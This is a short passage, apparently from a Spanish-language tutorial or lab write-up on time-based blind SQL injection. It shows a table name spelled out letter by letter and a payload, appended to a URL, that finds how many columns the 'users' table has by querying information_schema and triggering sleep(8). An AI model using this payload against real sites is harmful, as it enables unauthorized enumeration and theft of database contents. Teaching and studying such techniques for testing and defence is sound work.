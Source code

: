 ![v_tablas](/assets/img/screens/tablas_4_8.png)

1/u 2/s 3/e 4/r 5/s

<br>
Averiguando la cantidad de columnas:

Payload:

<pre><font class="ej">URL</font> + <font class="bordo">AND IF((SELECT count(*) FROM information_schema.columns WHERE table_name="users")=x,sleep(8),null);#</font></pre>
